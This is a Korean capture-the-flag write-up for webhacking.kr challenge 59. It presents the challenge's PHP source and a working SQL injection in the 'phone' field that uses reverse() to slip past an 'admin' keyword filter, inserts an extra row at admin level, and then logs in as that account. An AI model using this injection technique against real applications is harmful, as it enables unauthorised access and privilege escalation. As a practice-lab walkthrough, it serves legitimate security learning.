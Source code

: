 ================================================================================================================
[webhacking.kr] 59
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="post_data: {id=nimda&phone=1,reverse(id)),(1,1}",arrowhead="normal"];
        step3 -> step2[label="join success",arrowhead="normal"];
        step4 -> step5[label="post_data: {id=nimda&phone=1}",arrowhead="normal"];
        step7 -> step6[label="login success",arrowhead="normal"];
    }

|


소스 분석
================================================================================================================

- POST 파라미터: id,phone,lid,lphone
- String
- reverse

.. code-block:: php

    <?
    if($_POST[lid] && $_POST[lphone])
    {
        $q=@mysql_fetch_array(mysql_query("select id,lv from c59 where id='$_POST[lid]' and phone='$_POST[lphone]'"));
        if($q[id])
        {
            echo("id : $q[id]<br>lv : $q[lv]<br><br>");
            if($q[lv]=="admin")
            {
                @mysql_query("delete from c59");
                @clear();
            }
            echo("<br><a href=index.php>back</a>");
            exit();
        }
    }

    if($_POST[id] && $_POST[phone])
    {
        if(strlen($_POST[phone])>=20) exit("Access Denied");
        if(eregi("admin",$_POST[id])) exit("Access Denied");
        if(eregi("admin|0x|#|hex|char|ascii|ord|from|select|union",$_POST[phone])) exit("Access Denied");
        @mysql_query("insert into c59 values('$_POST[id]',$_POST[phone],'guest')");
    }

    ?>
    <html><head><title>Challenge 59</title></head><body>
    <form method=post action=index.php>
    <table border=1>
    <tr><td>JOIN</td><td><input name=id></td><td><input name=phone></td><td><input type=submit></td></tr>
    <tr><td>LOGIN</td><td><input name=lid></td><td><input name=lphone></td><td><input type=submit></td></tr>
    </form>
    </body></html>


|

Filtering Bypass
================================================================================================================

admin 문자열에 대해 필터링이 걸려있기 때문에, reverse 함수를 이용하여 admin 문자열을 거꾸로 입력하는 방식을 사용합니다.

.. code-block:: javascript

    $_POST[id] = nimda
    $_POST[phone] = 1,reverse(id)),(1,1

    "insert into c59 values('nimda',1,reverse(id)),(1,1,'guest')"

계정 추가가 성공적으로 되면 nimda 계정으로 로그인하면 Clear!!

.. code-block:: python

    $_POST[lid] = nimda
    $_POST[lphone] = 1

    "select id,lv from c59 where id='nimda' and phone='1'"

